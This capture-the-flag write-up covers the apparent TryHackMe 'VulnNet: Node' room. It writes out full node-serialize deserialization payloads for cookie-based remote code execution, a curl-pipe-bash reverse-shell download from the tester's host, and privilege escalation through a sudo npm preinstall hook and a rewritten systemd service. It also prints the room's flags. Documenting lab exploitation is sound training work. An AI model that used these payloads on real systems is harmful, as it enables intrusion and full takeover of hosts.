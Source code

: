 > Vulnet: Node

**export IP=10.10.153.159**

# Nmap

nmap -sC -sV -T4 -Pn -T4 -p- -vv -oN nmap/initial $IP

```
8080/tcp open  http    syn-ack Node.js Express framework
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: VulnNet &ndash; Your reliable news source &ndash; Try Now!
```

# Gobuster

sudo gobuster dir -u http://$IP:8080 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20 -x txt,php,sql,bak,zip,tar,bin,cgi -o gobuster/initial

```
/img (Status: 301)
/login (Status: 200)
/css (Status: 301)
/Login (Status: 200)
/IMG (Status: 301)
/CSS (Status: 301)
```

# Nikto

nikto -h http://$IP:8080

```
+ OSVDB-3092: /login/: This might be interesting...
```

Looking at the website we can find some usernames and let's save it to users.txt for fututre use. Let's try to intercept the request and find something interesting.

OOh! Cookies! The cookies looks to be URL encoded then base64 encoded. We are given a session cookie before we are logged in as a valid user. Decoding it we got `{"username":"Guest","isguest":true,"encoding": "utf-8"}`. Let's change the data to admin `{"username":"Admin","isAdmin":true,"encoding": "utf-8"}`. Now enocode to URL encode then to base64. And now we are in as admin but moving to login page we are requested to provide password.

Moving on keep playing with the cookie and if we change the cookie we get an interesting error message.

```
Object.exports.unserialize (/home/www/VulnNet-Node/node_modules/node-serialize/lib/serialize.js:62:16)<br> &nbsp; &nbsp;at 
```

We have an unserialize error. Googling it we can find an interesting blog!

```
Untrusted data passed into unserialize() function  in node-serialize module can be exploited to achieve arbitrary code execution by passing a serialized JavaScript Object with an Immediately invoked function expression (IIFE).
```

From referring the article we have a payload for `ls /`

`{"rce":"_$$ND_FUNC$$_function (){\n \t require('child_process').exec('ls /',function(error, stdout, stderr) { console.log(stdout) });\n }()"}`

We can try to ping ourselves and check if the payload works.

## Payload

# Plain Text

```
{"username":"_$$ND_FUNC$$_function (){\n \t require('child_process').exec('ping -c 1 10.8.107.21',function(error, stdout, stderr) { console.log(stdout) });\n }()","isAdmin":true,"encoding": "utf-8"}
``` 

Encode it as Base64 then URL encode it apply it to session cookie and we can recieve our request in tcpdump.

Time to get a shell! Let's craft a basic bash reverse shell and pass it through curl.

1. Create a reverse shell name rev_shell.sh 
2. Spin a python server 
3. Put curl command in payload.

## Payload

```
{"username":"_$$ND_FUNC$$_function (){\n \t require('child_process').exec('curl http://10.8.107.21:8000/rev_shell.sh | bash',function(error, stdout, stderr) { console.log(stdout) });\n }()","isAdmin":true,"encoding": "utf-8"}
```

# Privilege Escalation

sudo -l

```
(serv-manage) NOPASSWD: /usr/bin/npm
```

Referring GTFO bins we can find one.

1. mkdir exploit (in /dev/shm)
2. echo '{"scripts": {"preinstall": "/bin/sh"}}' > exploit/package.json
3. sudo -u serv-manage /usr/bin/npm -C  /dev/shm/exploit --unsafe-perm i

We have a shell as serv-manage!

# user.txt

```
THM{064640a2f880ce9ed7a54886f1bde821}
```

# Priv-Esc as root

sudo -l

```
User serv-manage may run the following commands on vulnnet-node:
    (root) NOPASSWD: /bin/systemctl start vulnnet-auto.timer
    (root) NOPASSWD: /bin/systemctl stop vulnnet-auto.timer
    (root) NOPASSWD: /bin/systemctl daemon-reload
```

locate vulnnet-auto.timer => `/etc/systemd/system/vulnnet-auto.timer`

# vulnnet-auto.timer

```
[Unit]
Description=Run VulnNet utilities every 30 min

[Timer]
OnBootSec=0min
# 30 min job
OnCalendar=*:0/30
Unit=vulnnet-job.service => We can check this too!!

[Install]
WantedBy=basic.target
```

/etc/systemd/system/vulnnet-job.service

```
[Unit]
Description=Logs system statistics to the systemd journal
Wants=vulnnet-auto.timer

[Service]
# Gather system statistics
Type=forking
ExecStart=/bin/df => Let's change this to a curl command `/bin/bash -c curl http://10.8.107.21:8000/rev_shell.sh | bash`

[Install]
WantedBy=multi-user.target
```

And again we have to do some steps to gain a root shell.

1. sudo -u root /bin/systemctl daemon-reload
2. sudo -u root /bin/systemctl stop vulnnet-auto.timer
3. sudo -u root /bin/systemctl start vulnnet-auto.timer

# root.txt

```
THM{abea728f211b105a608a720a37adabf9}
```